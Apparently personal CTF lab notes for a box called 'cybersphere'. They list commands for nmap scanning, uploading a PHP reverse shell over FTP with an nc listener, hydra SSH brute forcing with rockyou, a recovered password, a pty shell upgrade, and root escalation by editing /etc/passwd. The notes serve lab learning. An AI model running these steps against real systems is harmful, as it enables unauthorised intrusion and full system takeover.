 Other players writeup
> https://kir0sploit.github.io/2023/02/cybersphere-writeup/

# Command and Techniques:

nmap -sC -p- -sV $IP -oN nmap.txt –vv
ftp: put reverse shell
> php PentestMonkey
> put the openvpn ip
> save the file on current dir
cd webalizer
put getin.php
bye
- attacker先run： nc -nlvp 8899
- run the reverse shell by running the web browser: 10.10.207.136/webalizer/getin.php
hydra  -l   jack  -P  /usr/share/wordlists/rockyou.txt   ssh://10.10.233.62
login: jack   password: qwertyuiop
goto /home we know that user is jack.
- we dont know the password
- use the hydra to bruteforce the ssh password
- after knowing the password, su jack
- execute interactive command:
	python2 -c 'import pty;pty.spawn("/bin/bash")'
	export TERM=xterm
	press CTRL + Z
	stty raw -echo;fg
- open new terminal: run another remote command
boom! get the jack shell

or

ssh jack@10.10.233.62 
run the Linpeas tool on the /tmp directory - to see which path is vulnerable that we could edit/modify
ls  -al  /etc/passwd

or

sudo -l
generate encryted password: openssl passwd [your password]
nano  /etc/passwd - paste the passwd on x
su root
